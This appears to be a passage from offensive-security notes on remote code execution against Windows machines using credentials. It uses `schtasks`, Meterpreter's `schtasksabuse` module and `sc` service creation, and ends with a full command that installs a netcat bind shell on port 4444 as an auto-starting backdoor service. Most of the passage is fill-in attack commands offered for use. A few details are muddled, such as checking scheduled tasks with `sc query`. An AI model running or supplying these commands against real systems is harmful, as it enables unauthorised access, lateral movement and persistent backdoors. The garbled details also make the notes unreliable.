  
#### `schtasks` command ####
Only able to run as any user.

Some Windows operating systems support the 24HR time format.

Start Time must be in `HH:MM:SS` format.

Start Date must be in `MM/DD/YYYY` format?

Frequency must one of the following `MINUTE, HOURLY, DAILY, WEEKLY, MONTHLY, ONCE, ONSTART, ONLOGON, ONIDLE`.

Task Name is important so we can `sc query` it for status.
```
C:\> schtasks /create /tn [taskname] /s [remote_ip] /u [username] /p [password] /sc [frequency] /st [start_time] /sd [start_date] /tr [command]
```
Verify job has started with the command `schtasks /query /s [remote_ip]`.

Meterpreter includes a module called `schtasksabuse` that simplifies a lot of the `schtasks` process. If no credentials are given, `schtasksabuse` will run as the user who owns the process that _hosts_ meterpreter.
```
meterpreter > run schtasksabuse -c "[command_1],[command_2]" -t [remote_ip] -u [username] -p [password]
```
 
 
#### `sc` command ####
Starts the command as a service. _see limitation notes below_.
The space between `binpath= ` and the `[command]` is intentional and is required syntax. Wtf?
```
C:\> sc \\[remote_ip] create [service_name] binpath= "[command] [-flag] [arg]"
```
Next we will have to start the process with `sc \\[remote_ip] start [service_name]`, skip this step by adding `start= auto` when creating the service.

A (severe) limitation is that the service will only live for 30 seconds, this is because the service doesn't callback to `sc` letting it know that the service started; wtb `exit 0`. 
Working around this can be done by the following:
- (hack) Use `sc` to start a `cmd.exe` which then invokes another command, whatever we spawn will outlive the 30 second window.
- (bad)  Use a program to wrap an executable so that it throws the API call indicating a successful service start. See (ServifyThis)[https://github.com/inguardians/ServifyThis].

An example of the former:
```
C:\> sc \\[remote_ip] create netcat binpath= "cmd.exe /k c:\path\to\nc.exe -L -p 4444 -e cmd.exe" start= auto
```
This creates a service called `netcat` which starts `cmd.exe /k` to run another command which is `nc.exe`; That'll listens on port 4444 and when it detects an inbound connection it'll `-e` execute `cmd.exe` back through the netcat session. This is a common backdoor shell, see (netcat-utils)[https://github.com/cjwaian/netcat-utils]. 

Remove service with `sc \\[remote_ip] delete [service_name].
